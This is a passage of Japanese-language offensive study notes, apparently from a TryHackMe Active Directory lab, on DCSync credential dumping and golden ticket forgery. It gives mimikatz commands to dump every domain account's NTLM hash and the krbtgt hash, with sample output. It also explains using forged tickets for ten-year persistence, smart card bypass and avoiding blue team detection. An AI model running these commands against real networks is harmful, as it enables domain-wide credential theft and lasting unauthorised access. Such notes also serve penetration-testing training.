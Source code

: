 ## DC-sync

全員分のダンプを出力

```shell
mimikatz # log <logname>.txt
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

```shell
# ユーザー名
cat <logname>.txt | grep "SAM Username"

# ハッシュ
cat <logname>.txt | grep "Hash NTLM"
```

ハッシュはオフラインパスワードクラックするか、PassTheHash 攻撃に使える。

## ゴールデンチケット、シルバーチケット

### ゴールデンチケット

ゴールデンチケットは偽造された TGT。偽造するには、krbtgt アカウントの NTLM ハッシュが必要。特権アカウントの有効な TGT があれば、ほぼすべてのサービスの TGS を要求可能になる。

- ゴールデンチケットがあれば、偽装するアカウントの NTLM ハッシュは不要。
- krbtgt ハッシュ以外に必要なのは、偽装するアカウントのドメイン名、ドメイン SID、ユーザー ID。
- 削除された、無効化された、存在しないアカウントを指定しても、タイムスタンプが 20 分以内であれば有効になる。
- チケットのポリシーとルールは TGT 自体に設定されるため、TGT が 10 年間有効といった設定にして永続化することが可能。
- デフォルトでは krbtgt アカウントのパスワードは変更されない。手動で変更されない限り、TGT を生成することで永続的にアクセス可能。
- ブルーチームが krbtgt アカウントのパスワードを変更する場合、2 回変更する必要がある。1 回前のパスワードは有効なものとして保持される仕様。
- krbtgt アカウントのパスワードをローテーションすることは簡単ではない。タイムスタンプが有効な場合、新しい TGT を自動要求しないシステムもあるため。
- ゴールデン チケットを使用すると、 TGT を作成する前に DC によってスマート カードが検証されるため、スマート カード認証をバイパスすることもできる。
- ドメインに参加していないマシンでもゴールデンチケットを生成できるため、ブルーチームによる検出が困難になる。

```ps
# KRBTGT アカウントのハッシュをダンプ
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:krbtgt

Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :

# （参考）他の方法。DCに直接ログインできない場合も使える。ただしドメインレプリケーション権限が必要。
mimikatz # lsadump::dcsync /user:krbtgt
```
